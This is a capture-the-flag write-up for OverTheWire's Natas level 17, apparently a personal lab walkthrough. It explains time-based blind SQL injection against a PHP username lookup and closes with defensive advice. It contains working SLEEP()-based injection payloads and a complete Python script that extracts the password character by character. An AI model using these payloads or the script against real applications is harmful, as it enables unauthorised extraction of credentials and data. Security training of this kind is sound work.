


# Natas Level 17 → 18

**Vulnerability:** Time-Based Blind SQL Injection
**Difficulty:** Medium
**Tools Used:** Browser, Python Requests, Source Code Review
**OWASP Category:** A03:2021 – Injection

---

## What the level gives you

The application provides a username lookup feature similar to the previous level.

A source code link is available, revealing how user input is incorporated into a backend SQL query. Unlike Natas15, the application no longer displays whether a matching user exists.

The only observable behavior is the application's response time. The objective is to recover the password for Natas18 by exploiting this side channel.

---

## Source code analysis

The application constructs a database query using user-controlled input:

```php
$query =
"SELECT * from users where username=\"".$_REQUEST["username"]."\"";

// User input is inserted directly into the SQL query
// No parameterized statements or input sanitization are used
// An attacker can inject arbitrary SQL syntax
```

The query is executed:

```php
$res = mysqli_query($link, $query);

// Database executes attacker-controlled conditions
```

Unlike the previous level, all user feedback has been removed:

```php
if(mysqli_num_rows($res) > 0) {
    // echo "This user exists.";
}
else {
    // echo "This user doesn't exist.";
}

// Both responses are suppressed
// Traditional boolean-based extraction is no longer possible
```

Although visible output has been removed, SQL injection still exists. The attacker must rely on timing differences to determine whether injected conditions evaluate to true or false.

---

## Approach

My first observation was that the vulnerable SQL query from the previous level remained unchanged.

The application still concatenated user input directly into SQL statements, suggesting that SQL injection was still possible.

However, the previous boolean-based approach no longer worked because all output had been removed.

The turning point was realizing that database timing functions such as `SLEEP()` could be used as a side channel. If a guessed condition evaluated to true, the database could intentionally delay the response. If the guess was incorrect, the application would respond immediately.

This transformed the challenge into a time-based blind SQL injection problem.

Because the password contains 32 characters and each position requires multiple tests, automation was necessary.

---

## Exploitation

The first step was verifying that time-based SQL injection was possible.

Example payload:

```http
POST /index.php HTTP/1.1
Host: natas17.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded

username=natas18" AND SLEEP(5)#

# Forces the database to pause for five seconds
# Confirms SQL injection through response timing
```

A conditional payload was then used:

```sql
natas18" AND IF(1=1,SLEEP(5),0)#
```

Explanation:

```sql
IF(1=1,SLEEP(5),0)

-- If the condition is TRUE, delay the response
-- If the condition is FALSE, return immediately
```

Once timing behavior was confirmed, password extraction was automated.

```python
import requests
import string
import time

URL = "http://natas17.natas.labs.overthewire.org/"
AUTH = ("natas17", "PASSWORD")

# Candidate character set
CHARSET = string.ascii_letters + string.digits

password = ""

session = requests.Session()
session.auth = AUTH

# Test each password position
for position in range(1, 33):

    # Test every possible character
    for char in CHARSET:

        payload = (
            f'natas18" '
            f'AND IF(BINARY SUBSTRING(password,{position},1)="{char}",'
            f'SLEEP(2),0)#'
        )

        start_time = time.time()

        session.post(
            URL,
            data={"username": payload},
            timeout=10
        )

        elapsed = time.time() - start_time

        # Delayed response indicates a correct guess
        if elapsed > 1.8:
            password += char
            print(password)
            break

print("Password:", password)
```

The script measured response times and identified the correct character whenever a delay occurred.

Eventually, the complete Natas18 password was recovered.

---

## Screenshot

### Source code vulnerability

Shows the SQL query constructed directly from unsanitized user input.



### Password extraction

Shows automated time-based blind SQL injection recovering the password character by character.



---

## Real-world relevance

This vulnerability falls under OWASP A03:2021 – Injection. Time-based blind SQL injection is frequently encountered when applications suppress database errors and remove all visible query output.

During professional penetration tests, attackers often rely on response timing to infer database contents when traditional SQL injection techniques are unavailable.

Real-world breaches have involved attackers extracting credentials, customer records, API keys, and other sensitive information through timing-based side channels despite the absence of visible database responses.

---

## Defender's perspective

The primary defense is the use of parameterized queries and prepared statements. User input should never be concatenated directly into SQL statements.

Additional protections include strict server-side validation, least-privilege database accounts, and WAF signatures capable of detecting SQL injection payloads involving timing functions such as `SLEEP()`.

Security monitoring can also identify repeated requests exhibiting suspicious timing patterns associated with blind SQL injection attacks.

---

## What I'd do differently

Instead of testing every character sequentially, I would implement an ASCII-based binary search technique. This would significantly reduce the number of requests required and speed up password extraction.
